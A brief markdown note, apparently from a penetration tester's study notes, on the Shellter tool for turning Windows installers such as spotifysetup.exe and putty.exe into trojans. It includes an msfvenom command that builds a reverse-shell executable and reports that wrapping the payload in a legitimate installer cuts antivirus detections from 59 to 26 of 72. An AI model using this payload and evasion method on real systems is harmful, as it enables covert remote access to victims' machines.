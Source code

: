 ```yaml
---
tags:
  - tool
---
```

# Shellter

[Shellter](https://www.shellterproject.com/homepage/download/) is a tool used to create simple trojans for `.exe` files. See [here](https://www.shellterproject.com/tipstricks/) for tips and tricks.

**Executable Targets:**

- spotifysetup.exe
- putty.exe

Also, see [LOLBAS](https://lolbas-project.github.io/#)

### VirusTotal Test

**59/72 Hits:**

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.205 lport=9001 -f exe -o shell.exe
```

**26/72 Hits**

Same payload generated by utilizing an automated Shellter trojan with `spotifysetup.exe`
